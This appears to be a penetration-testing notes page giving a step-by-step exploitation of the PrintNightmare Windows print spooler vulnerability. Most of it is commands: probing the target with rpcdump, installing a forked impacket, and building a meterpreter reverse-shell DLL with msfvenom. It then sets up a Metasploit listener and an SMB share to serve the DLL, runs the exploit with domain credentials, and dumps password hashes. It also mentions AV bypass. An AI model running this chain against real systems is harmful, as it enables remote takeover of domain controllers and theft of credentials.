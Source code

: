 ```yaml
---
description: CVE-2021-1675
---
```


# ‼️ Abusing PrintNightmare

<figure><img src="../../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Github: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.

To test if a machine is vulnerable to PrintNightmare, we can utilize the PoC methodology:

```
rpcdump.py @Domain_IP | egrep 'MS-RPRN|MS-PAR'
```

MS-RPRN and MS-PAR refer to Microsoft protocols used for managing printing operations in a Windows environment.

And if the output of this command is the following:

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

The target is vulnerable to PrintNightmare :imp:

If we want to continue exploiting this vuln, this is the methodology:&#x20;

First, we need to install the correct version of impacket:

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

We then need to copy the raw code of the CVE python file and paste it in the CVE.py file we juste cloned:

```
gedit CVE-2021-1675.py
#then paste the raw code of this 
```

<figure><img src="../../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

So  basically for the following steps we are going to create a malicious DLL, host it and run it using the scripts provided by the repo:

```
Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
```

#### Methodology:

We first need to create our malicious DLL file with MsVenom

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=port_of_choice -f dll > shell.dll
```

Now we can just launch msfconsole and type in the following commands to set options:

```
set exploit multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```

<figure><img src="../../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Set LHOST and LPORT to your local machine and any unused port and run the _run_ command to activate listener

<figure><img src="../../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

Now we need to set up a file share and we are going to use smbserver.py from impacket:

```
smbserver.py share 'pwd' -smb2support
```

Now everything is up and we can run the command:

```
python3 CVE-2021-1675.py domain.contoso/username:Password@DC_IP '\\local_IP\share\shell.dll'
```

and normally if everything is good and no firewall blocking us we will have our shell on metasploit or any listener we set up

<figure><img src="../../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

and the rest is up to us with some fun commands like:

```
hashdump
```

In a normal environment, the firewall will block our DLL so we would need to do some AV bypass and could potentially obfuscate our DLL.
